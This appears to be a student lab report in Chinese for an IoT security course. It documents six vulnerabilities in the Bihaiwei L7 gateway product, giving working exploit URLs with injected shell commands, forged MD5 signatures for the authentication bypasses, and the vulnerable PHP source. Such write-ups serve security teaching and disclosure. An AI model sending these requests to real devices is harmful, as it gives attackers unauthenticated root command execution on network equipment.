# 物联网安全与漏洞挖掘课程实验 - 碧海威 L7 产品

学号： | 姓名：

---

- [物联网安全与漏洞挖掘课程实验 - 碧海威 L7 产品](#物联网安全与漏洞挖掘课程实验---碧海威-l7-产品)
  - [漏洞 1 - 控制台命令执行](#漏洞-1---控制台命令执行)
    - [漏洞描述](#漏洞描述)
    - [漏洞影响](#漏洞影响)
    - [漏洞利用](#漏洞利用)
    - [漏洞分析](#漏洞分析)
  - [漏洞 2 - 身份认证绕过](#漏洞-2---身份认证绕过)
    - [漏洞描述](#漏洞描述-1)
    - [漏洞影响](#漏洞影响-1)
    - [漏洞利用](#漏洞利用-1)
    - [漏洞分析](#漏洞分析-1)
  - [漏洞 3 - 身份认证绕过](#漏洞-3---身份认证绕过)
  - [漏洞 4 - 代码注入、命令执行](#漏洞-4---代码注入命令执行)
    - [漏洞描述](#漏洞描述-2)
    - [漏洞影响](#漏洞影响-2)
    - [漏洞利用](#漏洞利用-2)
    - [漏洞分析](#漏洞分析-2)
  - [漏洞 5 - 代码注入、命令执行](#漏洞-5---代码注入命令执行)
    - [漏洞描述](#漏洞描述-3)
    - [漏洞影响](#漏洞影响-3)
    - [漏洞利用](#漏洞利用-3)
    - [漏洞分析](#漏洞分析-3)
  - [漏洞 6 - 代码注入、命令执行](#漏洞-6---代码注入命令执行)

## 漏洞 1 - 控制台命令执行

### 漏洞描述

后台管理系统的 **命令控制台** 中，存在命令执行漏洞，可通过拼接执行任意命令。

### 漏洞影响

碧海威 L7 产品

### 漏洞利用

1. 使用管理员账号登录后台管理系统
   

2. 进入 `系统维护` -> `命令控制台`，出现 shell 界面
   

3. 输入 `[所支持的命令] & [将要执行的命令]`（例如 `help & sh`），即可以 root 权限执行命令
   
   如上图，得到了 root 权限的 shell，可以执行任意命令。

### 漏洞分析

较为简单，略。

## 漏洞 2 - 身份认证绕过

### 漏洞描述

微信连 Wi-Fi 功能中，存在身份验证绕过漏洞，可通过直接发送 GET 请求传递参数，将任意用户添加进认证规则中。

### 漏洞影响

碧海威 L7 产品

### 漏洞利用

请求如下：

```http
GET   {{BaseUrl}}/portal/wechat/bigwifi.php?
      user_id=aaa
      &time_stamp=bbb
      &sign=ccc
```

上述请求中：

- `user_id` 为要添加的用户 ID
- `time_stamp` 为当前时间戳，但实际可填任意值
- `sign` 为 MD5 签名，计算方法为 `md5(time_stamp + user_id)`

复现步骤：

1. 首先访问 <https://{{BaseUrl}}/portal/wechat/bigwifi.php>，不传入参数，页面内容为 `false`
   

2. 在地址后追加参数：`?user_id=abc&time_stamp=0&sign=e9113758e0ff881ab2770f05afde5552`
   

3. 访问后页面内容由 `false` 变为 `success`，即添加成功
   

### 漏洞分析

查看 `/www/portal/wechat/bigwifi.php` 源码，内容如下：

```php
<?php
$userIP = $_SERVER['REMOTE_ADDR'];
$user = $_GET['user_id'];
$timestamp = $_GET['time_stamp'];
$sign = $_GET['sign'];

$check = md5($timestamp.$user);
if ($check != $sign) {
        echo 'false';
        exit;
}

$cmd = "cfgtool authctl add ip '$userIP' method bigwifi name '$user'  leftseconds 86400 timeout 1440";
exec(escapeshellcmd($cmd));

echo 'success';

exit;
?>
```

可以看到，程序首先从 GET 参数中获取 `user_id`、`time_stamp` 和 `sign`，然后计算 `md5(time_stamp + user_id)`，最后拼接命令，执行 `cfgtool authctl add` 命令，将用户添加进认证规则中。

## 漏洞 3 - 身份认证绕过

与漏洞 2 类型相同，在不同的路径（/webauth/bigwifi.php）。

```http
GET   {{BaseUrl}}/webauth/bigwifi.php?
      user_id=aaa
      &time_stamp=bbb
      &sign=ccc
```

内容与漏洞 2 类似，不再赘述。

## 漏洞 4 - 代码注入、命令执行

### 漏洞描述

身份认证系统中，存在代码注入、命令执行漏洞，可通过拼接执行命令。

### 漏洞影响

碧海威 L7 产品

### 漏洞利用

请求如下：

```http
GET   {{BaseUrl}}/webauth/shportal.php?
      timestamp=aaa
      &vender_id=bbb
      &action=login
      &login_type=ddd
      &user_id=eee
      &share=fff
      &sign=ggg
```

上述请求中：

- `timestamp` 为当前时间戳，但实际可填任意值
- `vender_id` 为厂商 ID，但实际可填任意值
- `action` 为执行动作，触发漏洞须填入 `login`
- `login_type` 为登录类型（100-临时放行，101-账号密码认证，102-微信连 Wi-Fi），但实际可填任意值
- `user_id` 为用户账号，存在代码注入漏洞
- `share` 为账号共享数，触发漏洞须填入 `1`
- `sign` 为 MD5 签名，计算方法为 `md5(timestamp + vender_id + action + login_type + user_id)`

复现步骤：

1. 在浏览器地址栏填入如下内容，访问

   ```http
   https://{{BaseUrl}}/webauth/shportal.php?timestamp=0&vender_id=0&action=login&login_type=100&user_id=%26touch%20%2Ftmp%2Faaa&share=1&sign=d7957ef10abf6ffc85749959f9602380
   ```

   （注：`sign` 的值为对 `00login100&touch /tmp/aaa` 进行 MD5 计算得到的值；而 `user_id` 的值为 `&touch /tmp/aaa` 的 **URL 编码**）

   页面出现 `登录成功`，表明签名验证通过

   

2. 在控制台中查看命令执行结果
   

3. 将地址改为如下内容，尝试删除刚刚创建的文件

   ```http
   https://{{BaseUrl}}/webauth/shportal.php?timestamp=0&vender_id=0&action=login&login_type=100&user_id=%26rm%20%2Ftmp%2Faaa&share=1&sign=182a36a89446840e23645421b4f164d8
   ```

   文件删除成功
   

### 漏洞分析

查看 `/www/webauth/shportal.php` 源码，内容如下：

```php
<?php
$vender_id = $_GET['vender_id'];
$action = $_GET['action'];
$login_type = $_GET['login_type'];
$user = $_GET['user_id'];
$userIP = $_GET['user_ip'];
$user_mac = $_GET['user_mac'];
$download = $_GET['download'];
$upload = $_GET['upload'];
$end_dt = $_GET['end_dt'];
$share = $_GET['share'];
$timestamp = $_GET['timestamp'];
$bypass = $_GET['bypass'];
$sign = $_GET['sign'];
$callback = $_GET['callback'];

$check = md5($timestamp.$vender_id.$action.$login_type.$user);
if ($check != $sign && $action != 'getinfo') {
        echo $callback.'({"code":-1,"msg":"签名错误"})';
        exit;
}

if ($action == 'bypass') {
        @exec(escapeshellcmd("arctl -m pass -i $userIP -t $bypass"), $info);
        echo $callback.'({"code":0,"msg":"bypass成功"})';
        exit;
} else if ($action == 'getinfo') {
        @exec(escapeshellcmd("arctl -m auth -i $userIP"), $info);
        $res = @json_decode($info[0]);
        if (!$res->loginname)
                echo $callback.'({"code":0,"msg":"未认证"})';
        else
                echo $callback.'({"code":1,"user_id":"'.$res->loginname.'"})';
        exit;
} else if ($action == 'logout') {
        $cmd = "cfgtool authctl del ip '$userIP' method shanghe";
        exec(escapeshellcmd($cmd));
        echo $callback.'({"code":0,"msg":"注销成功"})';
        exit;
} if ($action == 'login') {
        if ($share == 1)
                exec('cfgtool authctl kick loginname '.$user);
        $leftseconds = abs($_GET['end_dt'] - time());
        $cmd = "cfgtool authctl add ip '$userIP' method shanghe name '$user' upstreamspeedlimit '$upload' downstreamspeedlimit '$download' leftseconds $lef
tseconds timeout ".round($leftseconds / 60);
        exec(escapeshellcmd($cmd));

        echo $callback.'({"code":0,"msg":"登录成功"})';
        exit;
}

echo $callback.'({"code":-1,"msg":"未知操作"})';
exit;
?>
```

可以看到，在 `action == 'login'` 处的 `exec()` 函数中，拼接了命令，且没有经过 `escapeshellcmd()` 函数处理，导致了代码注入、命令执行漏洞。

## 漏洞 5 - 代码注入、命令执行

### 漏洞描述

通知 - 确认环节中，存在代码注入、命令执行漏洞，可通过拼接执行命令。

### 漏洞影响

碧海威 L7 产品

### 漏洞利用

请求如下：

```http
GET   {{BaseUrl}}/notice/confirm.php?t=aaa
```

上述请求中：

- `t` 为是否确认通知后续不再弹出，存在代码注入漏洞

复现步骤：

1. 在浏览器地址栏填入如下内容，访问

   ```http
   https://{{BaseUrl}}/notice/confirm.php?t=%26touch%20%2Ftmp%2Fbbb
   ```

   

2. 在控制台中查看命令执行结果
   

3. 将地址改为如下内容，尝试删除刚刚创建的文件

   ```http
   https://{{BaseUrl}}/notice/confirm.php?t=%26rm%20%2Ftmp%2Fbbb
   ```

   

   文件删除成功

   

### 漏洞分析

查看 `/www/notice/confirm.php` 源码，内容如下：

```php
<?
$ip = $_SERVER['REMOTE_ADDR'];
$type = $_GET['t'];

$file = @popen("/usr/hls/bin/notice s $ip $type", "r");
if ($file)
        pclose($file);

exit;
?>
```

可以看到，代码中直接将 `$_GET['t']` 传入 `popen()` 函数，导致了代码注入、命令执行漏洞。

## 漏洞 6 - 代码注入、命令执行

与漏洞 5 类型相同，在不同的路径（/confirm/jumper.php）。

```http
GET   {{BaseUrl}}/confirm/jumper.php?t=aaa
```

内容与漏洞 5 类似，不再赘述。
